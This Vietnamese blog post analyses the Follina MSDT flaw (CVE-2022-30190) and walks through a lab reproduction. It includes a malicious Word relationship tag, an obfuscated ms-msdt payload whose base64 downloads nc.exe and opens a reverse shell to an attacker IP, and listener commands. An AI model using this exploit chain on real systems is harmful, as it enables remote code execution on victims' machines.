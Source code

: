 ```yaml
---
title: CVE-2022-30190 - CVE Analyst
time: 2025-01-10 12:00:00
categories: [CVE Analyst]
tags: [CVE]
image: /assets/posts/CVE-2022-30190/1.png
---
```

## What is CVE-2022-30190? 
- CVE-2022-30190 (CVSS score: 7.8) là một lỗ hổng thực thi mã từ xa trong Microsoft Support Diagnostic Tool (MSDT) hay còn gọi là "Follina" – một phần mềm mặc định trên Windows có nhiệm vụ báo cáo lỗi trên máy tính đến Microsoft. Lỗ hổng này tồn tại do cách gọi MSDT bằng giao thức URL từ một số ứng dụng nhất định (trong đó có một số phiên bản đã vá của MS Office 2019 và 2021).
- Nguy hiểm hơn, nếu tệp độc hại ở định dạng RTF, hành vi khai thác sẽ kích hoạt khi người dùng chọn tệp độc hại trong Windows Explorer mà không cần phải mở tệp, do đó có thể vượt qua các cơ chế bảo vệ như Protection View của MS Word.
## MSDT and CVE-2022-30190
- CVE-2022-30190, còn được gọi là lỗ hổng Follina, là một lỗ hổng nghiêm trọng trong Công cụ Chẩn đoán Hỗ trợ của Microsoft Windows (MSDT). MSDT là một tính năng tích hợp trong nhiều hệ điều hành Windows, hoạt động như "thợ máy" cho máy tính của bạn. Nó có nhiệm vụ phát hiện các vấn đề và tiến hành kiểm tra thường xuyên để đảm bảo hệ thống hoạt động mượt mà.

- Hãy tưởng tượng có ai đó có thể đánh lừa "thợ máy" này để vô tình mở khóa các "cửa" quan trọng trong hệ thống máy tính của bạn. Những "cửa" này có thể dẫn đến các thông tin quan trọng hoặc thậm chí là quyền kiểm soát các chức năng thiết yếu. Đó là bản chất của lỗ hổng CVE-2022-30190.
- Cốt lõi của CVE-2022-30190 là việc xử lý nằm ở các tệp thực thi cụ thể là `msdt.exe`. Cụ thể MSDT xử lý các URI không đúng định dạng, thường có độ dài bất thường và kết thúc bằng '!'. Việc xử lý không đúng các URI như vậy là yếu tố quan trọng cho phép thực thi lệnh trái phép (và là lỗ hổng nội tại trong MSDT).
- Hình thức phổ biến là attacker sẽ chèn 1 url độc hại vào trong file Microsoft Word, khi mở tài liệu Word bị nhiễm, tài liệu sẽ tải xuống một tệp HTML chứa mã độc thay vì nhúng trực tiếp URI quá dài. Tệp HTML này sẽ tự động tải xuống và sử dụng JavaScript để gọi URI độc hại, kích hoạt MSDT thực thi mã lệnh mà không cần quyền từ người dùng.
- ![image](/assets/posts/CVE-2022-30190/2.png)
### Để khai thác thành công lỗ hổng CVE-2022-30190, một số điều kiện nhất định cần được đáp ứng như sau:
#### Điều kiện Tiên Quyết (Preconditions)
- Vector Tấn Công: Đây là cuộc tấn công cục bộ (Local) yêu cầu sự tương tác của người dùng, với mức độ phức tạp thấp
- Môi Trường: Hệ điều hành Windows có cài đặt Microsoft Office.
- Quyền Hạn Người Dùng: Mã độc sẽ chạy với quyền hạn của người dùng mở tài liệu. Điều này có nghĩa là nếu người dùng có quyền admin, mã độc cũng sẽ có quyền tương tự.
#### Điều Kiện Để Khai Thác Thành Công (Satisfying Exploitability Checks)
- Độ Tin Cậy của Tài Liệu: Nạn nhân phải mở tài liệu Word được tạo đặc biệt cho cuộc tấn công này.

- Callback HTTP: Máy chủ web do kẻ tấn công kiểm soát phải có sẵn để cung cấp payload phụ cho mục tiêu khi tài liệu được mở.

- Giới Hạn Payload: Payload phụ (HTML độc hại) phải có dung lượng trên 4096 byte để vượt qua các kiểm tra kích thước nhất định của Office.

- Tương Tác Người Dùng: Mở tài liệu là cần thiết, nhưng với các định dạng như .rtf, đôi khi chỉ cần xem trước là có thể kích hoạt khai thác.
#### Chuỗi Tấn Công (Attack Chain Overview)
- Vector Ban Đầu: Cuộc tấn công bắt đầu với tài liệu Word chứa một tham chiếu bên ngoài, được xác định thông qua thẻ Relationship trong cấu trúc XML `word/_rels/document.xml.rels`. Tham chiếu này trỏ tới payload độc hại trên máy chủ của kẻ tấn công.
- Vector Thứ Hai: Tham chiếu bên ngoài tải payload HTML độc hại từ máy chủ từ xa khi tài liệu được mở.
- Thực Thi: Payload HTML sử dụng URI ms-msdt để chạy các lệnh PowerShell tùy ý trên máy tính của nạn nhân, kích hoạt mã độc để thao tác hệ thống hoặc đánh cắp dữ liệu.
## Các bước khai thác chi tiết
### Bước 1 : Document crafting
- Thẻ Relationship là một phần của cấu trúc XML trong tài liệu Microsoft Office (như Word, Excel) theo chuẩn Office Open XML (OOXML). Nó được sử dụng để xác định các liên kết đến tài nguyên bên trong hoặc bên ngoài tài liệu, chẳng hạn như hình ảnh, siêu liên kết, hoặc tệp dữ liệu khác. Thẻ này nằm trong các tệp *.rels của tài liệu
- Dựa vào đó attacker có thể lợi dụng để trỏ đến những liên kết độc hại

```
<Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://10.0.0.28:8000/index.html!" TargetMode="External"/>
```
### Bước 2 : Secondary payload retrieval
- Khi tài liệu Word chứa thẻ Relationship độc hại được mở, chuỗi tấn công CVE-2022-30190 (Follina) diễn ra qua các bước như sau:
1. Tải Payload HTML:
Tài liệu Word có chứa thẻ Relationship với một URL bên ngoài trong phần XML document.xml.rels.
Khi tài liệu mở, Word sẽ đọc phần Relationship này và tự động tải tài nguyên từ URL được chỉ định. Tài nguyên này là một tệp HTML chứa mã độc từ máy chủ của kẻ tấn công.
2. Kích hoạt Tệp HTML:
Tệp HTML độc hại được tải xuống từ máy chủ của kẻ tấn công và chứa JavaScript để kích hoạt URI ms-msdt.
3. Khai thác URI ms-msdt:
Lược đồ URI ms-msdt được sử dụng để truyền các tham số hoặc lệnh đến MSDT, cho phép MSDT thực hiện các lệnh PowerShell từ xa.
Trong khai thác này, tệp HTML độc hại sử dụng ms-msdt để gửi lệnh PowerShell, kích hoạt RCE.

### Bước 3: PowerShell execution
- Ví dụ:

```
ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'bm90ZXBhZA=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\"
```


## Triển khai lỗ hổng CVE-2022-30190
- Đầu tiên, ta tạo 1 liên kết html độc hại để file `document.xml.rels` trỏ đến, mình sẽ test nó trên local
```python
<script>
    location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(\"SW52b2tlLVdlYlJlcXVlc3QgaHR0cHM6Ly9naXRodWIuY29tL2ludDB4MzMvbmMuZXhlL3Jhdy9yZWZzL2hlYWRzL21hc3Rlci9uYy5leGUgLU91dEZpbGUgQzpcV2luZG93c1xUYXNrc1xuYy5leGU7IEM6XFdpbmRvd3NcVGFza3NcbmMuZXhlIC1lIGNtZC5leGUgMTkyLjE2OC4xLjEwOCA0NDQ0\"'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\"";
</script>
```
- ![image](/assets/posts/CVE-2022-30190/3.png)
- Thẻ script này tải xuống 1 file nc.exe và thực hiện kết nối với ip `192.168.1.108:4444` của máy attacker.
- Tuy nhiên điều kiện để vượt qua các kiểm tra về kích thước của office là dung lượng phải lớn hơn 4096 byte nhưng khi kiểm tra ta chỉ có 580 byte nên ta sẽ chèn thêm byte rác vào
```
┌──(kali㉿kali)-[~/Downloads/TEST CVE]
└─$ ll
total 4
-rw-rw-r-- 1 kali kali 580 Jan 10 17:00 index.html
```
![image](/assets/posts/CVE-2022-30190/4.png)

- Bây giờ dùng http.server để tạo liên kết local, đồng thời dùng lệnh `nc -lnvp 4444` trên máy attacker để lắng nghe
- SỬ dụng cú pháp python3 -m http.server [port]
![image](/assets/posts/CVE-2022-30190/5.png)
![image](/assets/posts/CVE-2022-30190/6.png)

- Tiếp theo truy cập vào `http://[ip_attacker]:[port]` để xem tạo thành công hay chưa
![image](/assets/posts/CVE-2022-30190/7.png)
- Tiến hành tạo file word, sau đó mở file `word/_rels/document.xml.rels` và thêm nội dung sau đây vào 

```
<Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="[url:port]/index.html!" TargetMode="External"/>
```

![image](/assets/posts/CVE-2022-30190/8.png)

- Ngay sau khi victim click vào, server thông báo có ip mới truy cập, đồng thời file nc.exe cũng được tải xuống. chứng tỏ đã reverse shell thành công.
![image](/assets/posts/CVE-2022-30190/9.png)
![image](/assets/posts/CVE-2022-30190/10.png)
![image](/assets/posts/CVE-2022-30190/11.png)
- Thậm chí tải các file mã độc khác cho các giai đoạn khác nhau
![image](/assets/posts/CVE-2022-30190/12.png)
- Ngoài ra ta có thể dùng các POC có sắn như : https://github.com/JohnHammond/msdt-follina




